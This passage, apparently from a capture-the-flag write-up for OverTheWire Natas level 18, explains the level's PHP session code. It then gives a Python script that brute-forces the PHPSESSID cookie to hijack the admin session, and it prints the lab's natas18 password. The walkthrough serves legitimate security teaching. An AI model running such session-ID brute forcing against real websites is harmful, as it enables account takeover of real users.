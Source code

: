> }
> 
> if($showform) {
> ?>
> 
> <p>
> Please login with your admin account to retrieve credentials for natas19.
> </p>
> 
> <form action="index.php" method="POST">
> Username: <input name="username"><br>
> Password: <input name="password"><br>
> <input type="submit" value="Login" />
> </form>
> <?php } ?>
> ```

The code implements a session-based authentication system where users can log in with a username and password. If the username is "admin", the user is granted admin privileges. This feature is disabled in the code.
The session ID is created using a random number between 1 and 640, which is stored in the `PHPSESSID` cookie.  
The `my_session_start` function checks if the `PHPSESSID` cookie is set and valid, and starts a session if it is. If the session is started successfully, it checks if the `admin` flag is set in the session. If not, it sets the `admin` flag to 0 (not an admin). The `print_credentials` function displays the credentials for the next level if the user is an admin.

Getting the password for natas19 is easy, we just have to bruteforce the session ID until we find the admin:

```python
import requests
from requests.auth import HTTPBasicAuth

URL = "http://natas18.natas.labs.overthewire.org/index.php?debug=1"
auth=HTTPBasicAuth('natas18', '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')
maxID = 640

for id in range(1, maxID+1):
    cookie = f'PHPSESSID={id}'
    print(f'Trying {cookie}', end='\r')
    headers = {'Content-Type': 'application/x-www-form-urlencoded', 'Cookie': cookie}
    r = requests.post(url=URL, headers=headers, auth=auth)
    if "You are an admin." in r.text:
        print(f'\n\n{r.text}')
        break
```

![password](pics/natas/2025-07-10-10-53-00.png)

